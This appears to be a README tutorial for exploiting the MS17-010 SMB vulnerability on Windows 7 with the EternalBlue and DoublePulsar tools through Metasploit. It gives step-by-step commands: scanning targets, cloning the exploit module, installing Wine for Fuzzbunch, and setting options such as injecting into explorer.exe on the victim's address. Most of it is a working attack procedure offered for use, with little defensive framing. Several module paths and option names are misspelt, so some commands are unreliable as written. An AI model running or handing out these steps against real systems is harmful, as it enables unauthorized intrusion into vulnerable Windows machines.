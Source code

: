 # Ethernalblue_Doublepulsar
https://yojimbosecurity.ninja/eternalblue-doublepulsar/

Step 1:

Will the target fall victim?
We will want to check to see if the target victim is vulnerable. To do this we will need to add a module to Metasploit. Specifically we want ms17010 which we can find on exploit db. Download the file and move it into Metasploits scanner module.

cp *.rb /usr/share/metasploit-framework/modules/auxiliary/scanner/smb/smb_ms_17_010.rb
Now start up Metasploit and lets test everything out.

msfconsole
Let's make sure our new module loaded.

reload_all
Now use the module by entering the following.

use auxiliary/scanner/smb/smb_ms_17_010
There will be a few requirements for this to work. To list them all enter the following.

show options
or

options
Here we really just need to set the value of RHOSTS.

set RHOSTS <IP address or addresses>
If the machine is likely vulnerable you will see something like this.

[!] 192.168.0.100:445         -Host is likely VULNERABLE to MS17-010!

Step 2:

Clone Eternalblue-Doublepulsar-Metasploit
The next step it to clone Eternalblue-Doublepulsar-Metasploit from github. We can add it to Metasploits path like we did before by adding directly to Metasploit. However here we will add it the prefered way.

Metasploit prefers external modules to be placed in .msf4/modules found in your root directory. We will need to make a few directories for our purpose such as exploits/windows.

Clone Enternalblue-Doublepulsar-Metasploit into this directory.

git clone https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit.git
Change into Eternalblue-Doublepulsar-Metasploit.

cd Eternalblue-Doublepulsar-Metasploit
Now copy eternalbluedoublepulsar.rb to the appropriate directory.

cp eternalblue_doublepulsar.rb /root/.msf4/modules/exploits/windows/smb/

Step 3:
We need to install wine because Fuzzbunch was written for Windows.

As always we begin with update

apt update
Install Wine and other Wine tools

apt install wine winbind winetricks
We need to add x32 because fuzzbunch was written for Windows Xp.

dpkg --add-architecture i386
Update and install Wine32

apt-get update && apt-get install wine32
Set Path variable.

WINEPREFIX="$HOME/.wine"
Set Wine Architecture

WINEARCH=win32 wine wineboot
Add to bashrc

echo "export WINEPREFIX=$HOME/.wine" >> ~/.bashrc

Step 4:

Exploit
With everything setup its time to exploit our victim. Begin by starting Metasploit.

msfconsole
Use our new module. Pro tip Tab is your friend.

use exploit/windows/Enternalblur-Doublepulsar-Metasploit/Enternalblur-Doublepulsar/
We will need to set the path to Doublepulsar and Eternalblue.

set DOUBLEPULSAR ~/.msf4/modules/exploits/windows/Enternalblur-Doublepulsar-Metasploit/deps

set ETERNALBLUE ~/.msf4/modules/exploits/windows/Enternalblur-Doublepulsar-Metasploit/deps
I recommend setting the process injection to explorer.exe

set PORCESSINJECT explorer.exe
Set RHOST to the victim's IPaddress.

set RHOST <>
We want to make sure we are targeting the right version of Windows.

show target
We are attacking Windows 7 so enter the appropriate corresponding number

set target <>

references
https://www.youtube.com/watch?v=fWwXjXexlT8

https://github.com/mdiazcl/fuzzbunch-debian

https://www.exploit-db.com/exploits/41891/

https://www.youtube.com/watch?v=wDAkiXxm1gE

https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit

https://www.youtube.com/watch?v=mJWMqLF00fM
